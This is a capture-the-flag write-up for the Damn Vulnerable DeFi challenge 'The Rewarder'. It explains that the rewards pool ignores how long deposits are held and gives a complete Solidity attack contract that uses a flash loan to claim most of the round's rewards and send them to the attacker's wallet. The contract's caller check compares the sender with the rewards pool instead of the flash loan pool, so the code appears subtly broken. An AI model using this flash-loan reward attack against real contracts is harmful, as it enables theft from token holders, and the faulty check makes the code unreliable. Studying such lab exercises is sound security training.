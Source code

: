 ```yaml
---
description: https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/
---
```


# 5. The Rewarder

### **Objective**

* There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
* Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
* You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
* By the way, rumours say a new pool has just launched. Isn’t it offering flash loans of DVT tokens?

### Approach

Let us examine the **deposit()** on Rewards Pool contract.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

* mints accounting tokens in a 1:1 ratio against the DVT tokens deposited
* calls distributeRewards()

**distributeRewards()**

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

* checks if its time for a new round of rewards distribution: **isNewRewardsRound()**
  * rewards are distributed in 5 day intervals from the `lastRecordedSnapshotTimestamp`
* if it is indeed time for a new rewards round, **\_recordSnapshot()** is executed
  * increments `lastSnapshotIdForRewards`
  * updates the timestamp on `lastRecordedSnapshotTimestamp`
  * increments `roundNumber`
* checks current totalDeposits and amountDeposited by the uer
  * if both are non-zero positive values, calculate rewards earned by user
  * rewards awarded are based on the percentage of contribution
  * if rewards > 0, mint reward tokens to the user, and record the timestamp into the mapping `lastRewardTimestamps`

**Attack vector**

* take a flash loan from the flashpool,
* deposit into rewards pool during an eligible rewards round
* return flash loan

{% hint style="info" %}
The weakness is that the rewarderPool does not check for how long a deposit has been held within it, to allocate rewards. It simply calculates rewards as a function of size, disregarding time.
{% endhint %}

### Solution

create a new contract for the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {TheRewarderPool} from "../../../src/Contracts/the-rewarder/TheRewarderPool.sol";
import {DamnValuableToken} from "../DamnValuableToken.sol";
import {FlashLoanerPool} from "../../../src/Contracts/the-rewarder/FlashLoanerPool.sol";
import {RewardToken} from "./RewardToken.sol";

contract Attack {
    
    TheRewarderPool public rewarderPool;
    DamnValuableToken public dvt;
    FlashLoanerPool public flashPool;
    RewardToken public rewardToken;
    address public owner;

    constructor(TheRewarderPool rewarderPool_, DamnValuableToken dvt_, FlashLoanerPool flashPool_,RewardToken rewardToken_){
        rewarderPool = rewarderPool_;
        dvt = dvt_;
        flashPool = flashPool_;
        rewardToken = rewardToken_;
        owner = msg.sender;
    }

    ///@notice take the largest possible flashloan
    function attack() external {
        require(owner == msg.sender, "only owner");

        uint256 dvtAvailable = dvt.balanceOf(address(flashPool));
        flashPool.flashLoan(dvtAvailable);
    }


    ///@notice done on new round of rewards
    function receiveFlashLoan(uint256 amount) external {
        require(address(rewarderPool) == msg.sender, "only flashPool");

        dvt.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);

        // return borrowed tokens to flashPool
        rewarderPool.withdraw(amount);
        bool success = dvt.transfer(address(flashPool), amount);
        require(success, "fLoan not returned");

        // transfer reward tokens to attacker wallet
        uint256 rewards = rewardToken.balanceOf(address(this));
        bool sent = rewardToken.transfer(owner, rewards);
        require(sent, "rewards not sent");
    }
}
```

### Test Exploit()

<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>
